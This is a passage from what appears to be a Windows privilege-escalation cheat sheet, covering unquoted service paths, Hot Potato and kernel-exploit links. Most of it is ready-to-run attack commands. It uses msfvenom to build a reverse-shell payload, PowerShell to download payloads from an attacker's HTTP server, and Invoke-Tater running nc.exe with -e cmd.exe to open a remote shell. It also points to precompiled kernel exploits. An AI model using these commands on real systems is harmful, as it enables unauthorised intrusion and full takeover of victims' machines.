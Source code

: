 ```
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > Common.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd "C:\Program Files\Unquoted Path Service\"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Common.exe', '.\Common.exe')
sc start unquotedsvc
```

#### Hot potato

##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', '.\Tater.ps1.exe')
powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
```

#### CVE

```
# Already compiled exploit
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits
```

##### Windows XP
